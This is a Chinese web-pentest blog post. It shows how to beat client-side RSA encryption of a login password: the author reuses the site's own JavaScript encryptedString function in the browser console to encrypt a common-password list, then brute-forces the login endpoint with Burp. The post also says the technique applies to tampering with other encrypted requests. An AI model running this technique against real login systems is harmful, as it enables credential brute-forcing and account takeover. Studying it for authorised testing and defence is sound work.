 ```yaml
---
layout: post
title:  "平台登陆密码请求加密爆破"
date:   2020-05-27 17：49
categories: [pentest]
tags: web渗透
---
```


<!-- more -->

## 发现加密请求js脚本

对浏览器前端进行审计，发现了加密的js

```javascript
e.encryptedString = function (t, n) {
var i = [
],
a = n.length,
r = 0;
while (r < a) i[r] = n.charCodeAt(r),
r++;
while (i.length % t.chunkSize != 0) i[r++] = 0;
var c,
o,
s,
u = i.length,
l = '';
for (r = 0; r < u; r += t.chunkSize) {
for (s = new h, c = 0, o = r; o < r + t.chunkSize; ++c) s.digits[c] = i[o++],
s.digits[c] += i[o++] << 8;
var d = t.barrett.powMod(s, t.e),
f = 16 == t.radix ? e.biToHex(d)  : e.biToString(d, t.radix);
l += f + ' '
}
return l.substring(0, l.length - 1)
}
```

打下断点查看变量，发现了明文和密文变量名

![1571819723306](https://github.com/L3B1anc/L3B1anc.github.io/blob/master/_posts/%E5%9F%B9%E8%AE%AD%E5%B9%B3%E5%8F%B0%E7%99%BB%E9%99%86%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82%E5%8A%A0%E5%AF%86%E7%88%86%E7%A0%B4.assets/1571819723306.png)

找到js内发送请求处

```javascript
c['a'].get(''.concat(u, '/keyPair'));
case 2:
return r = n.sent,
o = r.exponent,
s = r.modulus,
d = l.getKeyPair(o, '', s),
h = l.encryptedString(d, e),
n.prev = 7,
n.next = 10,
c['a'].post(''.concat(u, '/login'), {
account: t,
password: h
});
```

打下断点查看变量

![1571819882865](https://github.com/L3B1anc/L3B1anc.github.io/blob/master/_posts/%E5%9F%B9%E8%AE%AD%E5%B9%B3%E5%8F%B0%E7%99%BB%E9%99%86%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82%E5%8A%A0%E5%AF%86%E7%88%86%E7%A0%B4.assets/1571819882865.png)

![1571819920248](https://github.com/L3B1anc/L3B1anc.github.io/blob/master/_posts/%E5%9F%B9%E8%AE%AD%E5%B9%B3%E5%8F%B0%E7%99%BB%E9%99%86%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82%E5%8A%A0%E5%AF%86%E7%88%86%E7%A0%B4.assets/1571819920248.png)

发现在js里面就是在这里生成密文并发送到服务器端

![1571820028796](https://github.com/L3B1anc/L3B1anc.github.io/blob/master/_posts/%E5%9F%B9%E8%AE%AD%E5%B9%B3%E5%8F%B0%E7%99%BB%E9%99%86%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82%E5%8A%A0%E5%AF%86%E7%88%86%E7%A0%B4.assets/1571820028796.png)

## 调用js生成加密密码字典

在控制台内申明一个明文字典数组

```javascript
var  A = ['123456','password','123456789','12345678','12345','111111','1234567','sunshine','qwerty','iloveyou','princess','admin','welcome','666666','abc123','football','123123','monkey','654321','!@#$%^&*','charlie','aa123456','donald','password1','qwerty123','zxcvbnm','121212','bailey','freedom','shadow','passw0rd','baseball','buster','daniel','hannah','thomas','summer','george','harley','222222','jessica','ginger','letmein','abcdef','solo','jordan','55555','tigger','joshua','pepper','sophie','1234','robert','matthew','12341234','andrew','lakers','andrea','1qaz2wsx','starwars','ferrari','cheese','computer','corvette','mercedes','blahblah','maverick','hello','nicole','hunter','1989','amanda','1990','jennifer','banana','chelsea','ranger','1991','trustno1','merlin','cookie','ashley','bandit','killer','aaaaaa','1q2w3e','zaq1zaq1','test','hockey','dallas','whatever','admin123','pussy','liverpool','querty','william','soccer','london','1992','biteme']
```

声明一个空数组作为密文字典

```javascript
var dist = new Array()
```

调用加密方法将明文字典加密为密文字典

```js
for(i=0,len=A.length;i<len;i++){
  dist[i]=l.encryptedString(d, A[i])
}console.log(dist)
```

然后在控制台内就获得了加密后的字典文件

![1571820473809](https://github.com/L3B1anc/L3B1anc.github.io/blob/master/_posts/%E5%9F%B9%E8%AE%AD%E5%B9%B3%E5%8F%B0%E7%99%BB%E9%99%86%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82%E5%8A%A0%E5%AF%86%E7%88%86%E7%A0%B4.assets/1571820473809.png)

直接使用加密后的字典文件放入burp里面进行爆破就可以了

---

这套操作也适用于请求加密的情况，可以直接替换掉加密请求达到请求篡改的目的



